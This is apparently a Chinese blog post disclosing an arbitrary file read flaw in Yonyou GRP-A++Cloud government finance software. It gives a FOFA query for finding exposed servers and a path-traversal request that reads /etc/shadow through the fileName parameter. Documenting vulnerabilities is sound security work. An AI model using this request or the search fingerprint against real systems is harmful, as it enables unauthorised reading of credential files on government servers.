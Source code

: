 ﻿[toc]

# 免责声明
文章只供交流与学习，切莫做违法犯罪的事情
# 漏洞描述
用友 GRP-A++Cloud 政府财务云产品是以政府会计准则和预算管理一体化规范为基准，服务于政府行政事业单位，落实国家信创和行政事业单位内部控制规范要求，支持省级集中部署以及内部、外部业务协同，通过构建云原生服务，支撑业务的持续演化和变革，为政府业财一体化、财务规范化、自动化、智能化服务，打造安全、可靠、可控的信息化运行环境，提升各单位数字化治理能力。

# 漏洞原理
在download页面参数为fileName处存在任意文件的读取漏洞
# 影响版本
不详

# fofa

body="/pf/portal/login/css/fonts/style.css"

# 漏洞复现
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/624cf65f50a34e369cab30c74d58df70.png)
访问/ma/emp/maEmp/download?fileName=../../../etc/shadow
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/e3e2fad6e7924a1d87333d158e116144.png)

# 修复建议
更新到最新版本

